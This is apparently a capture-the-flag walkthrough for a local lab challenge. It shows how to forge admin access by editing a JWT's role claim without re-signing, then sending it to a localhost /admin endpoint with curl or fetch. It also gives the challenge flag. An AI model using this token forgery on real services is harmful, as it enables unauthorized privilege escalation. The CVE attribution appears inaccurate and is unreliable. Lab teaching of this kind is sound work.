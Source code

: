 **HOW TO SOLVE: TOKEN OF DECEIT**

1. Sign up
   
  •	Create an account to be automatically assigned the "user" role.

2. Login

  •	After account creation, you’ll be redirected to the login page.
  •	Use the same credentials to log in.
  •	Upon successful login, the server generates and sends a JWT.

3. Decode the JWT without verifying the signature
   
  a. Open the console:
    •	On MacOS, press (Option + Command + J).
    •	On Windows, press (Ctrl + Shift + J).
    
  b. You’ll see the following message: **GET http://localhost:3000/admin 403 (Forbidden)**
  c. Run the following command in the console to get the token, containing three parts, each separated by a period (.):

     **localStorage.getItem('token');**
   
  d. The token role will be "user" as per your credentials.
  e. Visit jwt.io and paste the JWT into the "Encoded" field to view the decoded payload.

4. Manipulate the JWT Payload
  a. Change the role to "admin".

    For example:
    {
      "username": "isabella",
      **"role": "admin",**
      "iat": 1738901843,
      "exp": 1738905443
    }
  b. No need to re-sign the token, as the program has a vulnerability that does not verify the signature.
  c. Your JWT is now modified.

5. Send the Manipulated JWT to the Server (2 ways)
You can use one of the following methods to send the modified JWT to the server:

a. Using cURL (command line):
  •	Open your terminal and type:
  
    curl -H "Authorization: Bearer MANIPULATED-JWT" http://localhost:3000/admin

b. Using the Browser Console:
  •	Run this JavaScript:
  
    fetch("http://localhost:3000/admin", {
        method: "GET",
        headers: {
            "Authorization": "Bearer MANIPULATED-JWT"
        }
    })
    .then(response => response.json())
    .then(data => console.log(data))
    .catch(error => console.error("Error:", error));

6. Access the Admin Endpoint and Retrieve the Flag
  a. The server will decode the manipulated token and grant admin access.
  b. The server will respond with the flag:

   {"flag":"ATHACKCTF{trust_is_a_vulnerability}"}

**Vulnerability:**
•	CVE-2022-23529 (jsonwebtoken <=8.5.1): The server fails to verify the JWT's signature, allowing the payload to be manipulated without detection.


Ensure that all dependencies required to build or run the solution are provided (e.g., `requirements.txt`) or thoroughly documented.

